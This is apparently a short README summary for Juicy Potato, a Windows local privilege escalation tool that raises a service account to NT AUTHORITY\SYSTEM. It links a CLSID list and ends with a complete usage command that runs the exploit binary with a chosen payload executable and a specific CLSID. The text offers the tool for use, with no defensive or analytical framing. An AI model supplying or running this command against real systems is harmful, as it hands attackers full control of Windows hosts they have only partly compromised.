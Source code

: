 # Summary

A sugared version of RottenPotatoNG, with a bit of juice, i.e. another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

## CLSID
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md


```sh
c:\tmp\jucypotato86.exe -t * -p win32_9002.exe -l 9008 -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
